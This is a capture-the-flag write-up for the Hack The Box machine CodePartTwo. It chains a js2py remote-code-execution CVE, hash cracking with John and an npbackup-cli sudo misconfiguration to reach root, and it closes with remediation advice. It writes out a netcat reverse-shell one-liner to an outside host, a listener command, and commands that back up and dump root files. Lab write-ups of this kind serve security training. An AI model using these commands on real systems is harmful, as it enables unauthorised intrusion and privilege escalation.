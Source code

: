 # CTF Write-up — CodePartTwo from hackthebox.com

> **Summary:** Exploited a js2py SSTI RCE to get a service shell, crack a user password and SSH in, then abused a sudo-able npbackup-cli misconfiguration to escalate to root.    
> **Difficulty:** Easy  
> **HTB:** https://app.hackthebox.com/machines/692
>
![Tactics](https://img.shields.io/badge/Tactics-Source%20Code%20Analysis%20%7C%20Hash%20Cracking%20%7C%20Priv%20Esc-blue?style=flat-square)
![Tools](https://img.shields.io/badge/Tools-Nmap%20%7C%20js2py%20%7C%20John-red?style=flat-square)



---

## Table of contents
1. [Reconnaissance](#reconnaissance)
2. [Resource development](#resource-development)
3. [Initial access](#initial-access)
4. [Privilege escalation](#privilege-escalation)
5. [Findings & recommendations](#findings--recommendations)

---

## 1. Reconnaissance

### Port scan
- Performed an `nmap` scan and enumerated open services. See `evidences/nmap.txt`.  
```bash
nmap -sV -sS 10.10.11.82 -oN nmap.txt
```
- Results (high-level):
  - `8000/tcp` — HTTP (Gunicorn)
  - `22/tcp` — SSH

### Web site analysis
- after creating an account and logging in we find a ![code execution page](evidences/run_code_website.png) 
- we also find a download to the source code running this website: ![download button](evidences/download_app.png)

### Source code analysis
- we download the source code and analyze the `app.py` file. See `evidences/app.py`.  
- analyzing the file we find that the code provided by the user is ran through the `js2py` library: ![js2py code](evidences/js2py.png)
- from the requirements.txt file we find that the version is `js2py 0.74`

### CVE research
- there's a critical CVE correlated to js2py: [CVE-2024-28397](https://nvd.nist.gov/vuln/detail/CVE-2024-28397)
- there're also several PoC exploits: [PoC in python](https://github.com/advisories/GHSA-r9pp-r4xf-597r)

---

## 2. Resource development

### Reverse shell
- since the PoC allow us to do a RCE we prepare a reverse shell from [reverse shell generator](https://www.revshells.com/):   
``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.26 9000 >/tmp/f
```

### Listener Socket
- we start a socket listener to catch the remote connection that will be started:
``` bash
nc -lvnp 9000
```

---

## 3. Initial access
### App user access
- once everything is ready we just need to upload the PoC, run the code and get initial access: ![initial access](evidences/initial_access.png)

### System enumeration
- we accessed as user `app`, so we need to gain access as a more priviledge user
- navigating the system we find the `user.db` file and download it locally. See `evidences/user.db`: ![users.db download](evidences/users_db_download.png)  

### Users.db enumeration
- opening the database and searching in it let us find the users hashes: ![users hashes](evidences/user_hash.png)

### Hash cracking
- we can crack the hash using John the ripper:
``` bash
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt
```
![cracked hash](evidences/cracked_hash.png)

### User Flag
- we can now ssh into the machine:
``` bash
ssh marco@10.10.11.82
```
![user flag](evidences/user_flag.png)

---

## 4. Privilege escalation
### Linux enumeration
- we use `sudo -l` to list cmds that the user can run as privileged user and find npbackup-cli: ![sudo cmds](evidences/sudo_cmds.png)
- we also find the config file for npbackup: ![npbackup config](evidences/npbackup_config.png)

### Npbackup hack
- we create a version of npbackup config that backup /root folder instead of /home/app/app: ![modified npbackup config](evidences/root_config.png)
- than we create a backup of the folder:
``` bash
npbackup-cli -c root.conf -b
```
- now we can dump file's content form this backup:
``` bash
npbackup-cli --dump /root/root.flag
```
![root flag](evidences/root_flag.png)

---

## 5. Findings & recommendations
### Key findings
| # | Category                                    | Description                                                                                            | Impact   |
| - | ------------------------------------------- | ------------------------------------------------------------------------------------------------------ | -------- |
| 1 | **Remote Code Execution (RCE)**             | The `js2py` library (v0.74) was vulnerable to arbitrary code execution (CVE-2024-28397).               | Critical |
| 2 | **Insecure Configuration Management**       | The web app allowed users to upload or execute arbitrary code, leading to exploitation.                | High     |
| 3 | **Weak Credential Storage**                 | Password hashes were stored unsalted in a SQLite database.                                             | Medium   |
| 4 | **Privilege Escalation via Backup Utility** | `npbackup-cli` was executable with elevated privileges and could be reconfigured to access root files. | High     |


### Immediate remediation (high-level)
1. **Patch and Dependency Management** Update js2py to >= 0.74.1 or any version where CVE-2024-28397 is mitigated.

2. **Secure Code Execution Handling** Never directly evaluate user-supplied input in server-side logic (especially with libraries like js2py, exec, eval, or template rendering engines).

3. **Credential and Database Security** Store credentials using strong hashing algorithms (e.g., bcrypt, argon2) with salt.

4. **Privilege Management** Restrict usage of elevated binaries (sudo access) to necessary commands only.

5. **System Hardening and Monitoring** Enable AppArmor/SELinux profiles to prevent command execution escalation.    


---
